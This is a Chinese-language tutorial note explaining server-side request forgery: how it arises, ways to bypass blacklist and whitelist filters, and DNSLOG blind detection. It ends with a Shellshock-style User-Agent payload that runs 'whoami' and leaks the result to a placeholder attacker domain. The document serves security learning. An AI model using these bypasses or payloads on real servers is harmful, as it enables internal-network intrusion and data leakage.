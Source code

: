 # SSRF

# 简介

![SSRF%205eabcf9885914010a5619bd5d875fa32/Untitled.png](SSRF%205eabcf9885914010a5619bd5d875fa32/Untitled.png)

诸如图片上传等功能，经常会允许添加外部的图片链接进行间接上传（如百度的图片链接[https://image.baidu.com/search/detail](https://image.baidu.com/search/detail)?），而对于此类链接的直接信任并且引用，极有可能导致额外的安全风险产生（如上图，本身功能接口被设计为引用第三方站点的文件资源，结果却导致内网系统被【使用网站自身服务器的身份】间接访问）。

此类安全风险被称为Server-Side Request Forgery，服务器端请求伪造。

---

# 原理

此类功能非常容易猜测内部原理，当A网站一个图片上传接口被填写外部网站链接（B网站）后，A网站服务器会解析该链接，并以A网站服务器的身份发送一个GET请求，在返回包的主体中获取对应的图片资源内容。

而这个B网站的链接如果被修改成内部网站地址（如：127.0.0.1、localhost、192.168.0.1-255等），即可被用作探测内网的网络拓扑结构、访问内网特定文件资源、附带特定payload攻击内网应用、写入shell并触发......

---

# 技巧

![SSRF%205eabcf9885914010a5619bd5d875fa32/Untitled%201.png](SSRF%205eabcf9885914010a5619bd5d875fa32/Untitled%201.png)

在 **填写URL地址→过滤链接→解析访问链接** 的过程中，如何过滤链接使得该功能不会导致风险产生，是需要一定的技巧的。

1. 无过滤函数（safe_func()）时，漏洞发现方式
    1. 输入该网站存在的URL路径（如：http://127.0.0.1/dosomething），观察返回包是否是该URL路径的返回格式
    2. vps开启端口监听（如：sudo python3 -m http.server 8009，监听8009端口），观察是否有来自服务器IP的访问请求
    3. 输入该网站所在网段的其他机器，观察返回包是否包含某些特征（如：http://192.168.0.1:80）
2. 黑名单过滤（过滤如127.0.0.1等特征字符串）时，漏洞发现方式
    1. 127.0.0.1等转换成十进制、十六进制、八进制等
    2. 转换成如t.cn的短地址
    3. 限制子网段，可以通过:80等指定端口绕过
3. 白名单过滤（如必须包含某些受信任的域名）时，漏洞发现方式
    1. at绕过（123.com@456.com 与 直接请求456.com相同）
    2. URL跳转绕过（test.com/redirect?url=xxx，与直接请求xxx类似）
    3. xip.io绕过（http://xxx.192.168.0.1.xip.io与192.168.0.1相同）
    4. 将自己的域名解析成指定的内网IP（需要有域名）
4. DNSLOG盲打发现
    1. 通过输入burp collaborator生成的一次性域名或自己的ceye.io地址，查看相关域名的寻址请求来源，判断该功能是否存在SSRF漏洞
5. 其他
    1. referer请求头修改成DNSLOG域名
    2. UA请求头修改成() { :; }; /usr/bin/nslookup $(whoami).YOUR-DNSDOMAIN-ADDRESS

    #上述两点是建立在服务端对于referer或UA存在某些不当校验的基础上